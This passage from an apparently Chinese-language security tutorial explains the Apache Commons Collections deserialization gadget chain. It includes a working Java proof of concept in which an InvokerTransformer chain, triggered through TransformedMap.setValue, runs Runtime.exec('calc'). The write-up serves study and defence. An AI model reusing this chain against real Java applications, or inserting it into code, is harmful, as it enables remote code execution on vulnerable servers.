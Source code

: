 
可以看到，通过`transform`方法里的反射，我们成功调用了`StringBuilder`中的`append`方法并返回结果，虽然过程有些曲折。这样，我们离RCE又近了一步，那么谁会去调用这些`transformer`对象的`transform`方法呢？

调用这些`transform`方法的是一个叫`TransformedMap`的类，这个类可以当做原生Map类的一个包装类（通过`TransformedMap.decorate`方法）。进入这个类一探究竟：

![](http://static.wooyun.org//drops/20151111/2015111114230975173.png)

这里的`decorate`方法就是对外创建`TransformedMap`对象的方法。在代码中我们可以清晰找到`transform`方法是如何被调用的。

![](http://static.wooyun.org//drops/20151111/2015111114230992801.png)

以及`entry`对象调用`setValue`时，执行的`checkSetValue`：

![](http://static.wooyun.org//drops/20151111/2015111114230983705.png)

为了搞清楚为啥在`setValue`的时候发生了什么，我们来看代码：

    
    
    #!java
    public class TransformTest {
        public static void main(String[] args) {
            Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, 
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, 
                        new Object[]{"calc"})
            };
            Transformer chain = new ChainedTransformer(transformers) ;
            Map innerMap = new HashMap() ;
            innerMap.put("name", "hello") ;
            Map outerMap = TransformedMap.decorate(innerMap, null, chain) ;
    
            Map.Entry elEntry = (Entry) outerMap.entrySet().iterator().next() ;
            elEntry.setValue("hello") ;
        }
    }
    

代码中，我们将我们要执行的多行代码分散到各个`transformer`里，使用`InvokeTransformer`类来执行我们的方法。接着用`TransformedMap`来执行`transfom`方法触发代码。

这里的原生Map用来被`TransformedMap`包装，然后map的`entry`对象调用了`setValue`方法。在java环境中执行上面的代码，最后会弹出计算器：

![](http://static.wooyun.org//drops/20151111/2015111114231067535.png)

到目前为止，我们找了一些创造RCE的条件：

（1）使用了`InvokeTransformer`的对象，并在`transform`方法里执行代码；  
（2）使用`TransformedMap`通过执行setValue方法来触发`transform`方法。

对于一个“不讲道理”的RCE，显然需要另一个好用的类来同时满足上面两点，并且在`readObject`里进行调用。`readObject`方法是java的序列化对象（实现了`Serializable`接口）中首先会调用的方法。
